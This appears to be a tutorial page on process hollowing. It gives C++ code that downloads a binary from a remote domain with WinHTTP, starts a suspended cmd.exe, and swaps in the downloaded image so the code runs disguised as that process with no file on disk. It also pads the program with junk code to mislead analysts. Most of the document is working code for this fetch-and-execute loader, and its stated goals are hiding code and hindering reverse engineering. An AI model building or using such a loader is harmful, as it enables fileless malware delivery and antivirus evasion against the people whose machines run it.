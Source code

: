 ### Introduction
> Process hollowing is a technique to run executable, binary code, while disguised as a different process. It is mainly used by malware to replace the code of a running, trusted program with its own, making it very difficult to detect. Although its main use is to evade detection by anti-viruses, process hollowing also has a legitimate use.
>
> More information about process hollowing can be found at [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)

We can use process hollowing to run a process without having an executable file stored on the disk, which is very useful in preventing reverse-engineering of our code. If there is no executable file stored on the disk, there is no executable file that can be opened in IDA. There's probably some other method to decompile code running through process hollowing, but this still greatly increases the difficulty in reverse-engineering.

### Downloading Binary Data
We will use WinHTTP to download a file from the internet into a temporary buffer.

First, we open an `HINTERNET` session object and initialize its connection to the domain our binaries are stored on.

            HINTERNET hSession = WinHttpOpen(USER_AGENT, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
            HINTERNET hConnection = WinHttpConnect(hSession, DOWNLOAD_DOMAIN, (DOWNLOAD_USE_HTTPS ? INTERNET_DEFAULT_HTTPS_PORT : INTERNET_DEFAULT_HTTP_PORT), 0);

Here, `USER_AGENT` is defined as a default User Agent (`Mozilla/5.0 (X11;...`) and `DOWNLOAD_DOMAIN` is the domain where our binaries are hosted (`strayfade.com` in this case)
`DOWNLOAD_USE_HTTPS` is defined as `true` so that we connect on port 443 which is used for HTTPS.

            HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", DOWNLOAD_PATH, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);

 - `L"GET"` tells WinHTTP to create a `GET` request
 - `DOWNLOAD_PATH` is the path of the binaries on the server (`/cdn/file...`)
 - `WINHTTP_DEFAULT_ACCEPT_TYPES` tells WinHTTP to accept binary data
 - `WINHTTP_FLAG_SECURE` tells WinHTTP that this data is served over HTTPS.

            WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0))
            WinHttpReceiveResponse(hRequest, NULL)

The above code sends the request and reads the response into the `hRequest` variable. Below, we get the size of the transferred data to allocate memory for it.

            DWORD contentLength = 0;
	        DWORD contentLengthBufferSize = 128;
            WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, &contentLength, &contentLengthBufferSize, WINHTTP_NO_HEADER_INDEX)
	        unsigned char* buffer = new unsigned char[contentLength];

Next, we have to read the response into the array
            
            DWORD bytesRead = 0;
            WinHttpReadData(hRequest, (LPVOID)buffer, contentLength, &bytesRead);

### Creating a process
> I learned about most of this from the [adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing) repository on GitHub, so credit goes to them for some bits of this code.

First, we have to create a dummy process to be "hollowed":

            CreateProcessA((LPSTR)HOST_PROCESS, nullptr, nullptr, nullptr, TRUE, CREATE_SUSPENDED, nullptr, nullptr, &SI, &PI);

What's important here is the `HOST_PROCESS` variable and `CREATE_SUSPENDED` flag. `HOST_PROCESS` is a path (string) to the executable to hollow. For our use, this is set to the absolute path of `cmd.exe`. The `CREATE_SUSPENDED` flag tells `CreateProcessA` to suspend the process as soon as it is created, letting us replace its PE image before it starts.

We also need to check whether or not the running executable is compatible (has the same architecture as our replacement code). To do this, I'm using functions from the `Process-Hollowing` repository:

            BOOL bTarget32;
		    IsWow64Process(PI.hProcess, &bTarget32);
            ProcessAddressInformation ProcessAddressInformation = { nullptr, nullptr };
            ProcessAddressInformation = GetProcessAddressInformation64(&PI); // Get base address of process to hollow
            const BOOL bSource32 = IsPE32(hFileContent); // hFileContent is a cast of buffer to type LPVOID

            // Subsystem check
            DWORD dwSourceSubsystem = GetSubsytem64(hFileContent);
            DWORD dwTargetSubsystem = GetSubsystemEx64(PI.hProcess, ProcessAddressInformation.lpProcessImageBaseAddress);
            if (dwSourceSubsystem != dwTargetSubsystem) return;

Finally, we do the actual process hollowing

		    BOOL bHasReloc = HasRelocation64(hFileContent);
            if (!bHasReloc) { RunPE64(&PI, hFileContent); }
            else { RunPEReloc64(&PI, hFileContent); }

### More Important Things
One neat thing we can do to confuse reverse-engineerers is to pad our executable with junk code, since the whole program only ends up at about 16kb. There aren't many programs that small, so we need to add junk code to make our process hollowing look like it's just running the original program. I added 2mb of filler to the program, since the binaries we were downloading were around that size.

            CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Pad, 0, 0, 0); // This runs in a thread after the process hollowing has finished.

### References 
 - [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)
 - [https://github.com/adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing)
 - [https://github.com/kernelm0de/RunPE-ProcessHollowing](https://github.com/kernelm0de/RunPE-ProcessHollowing)
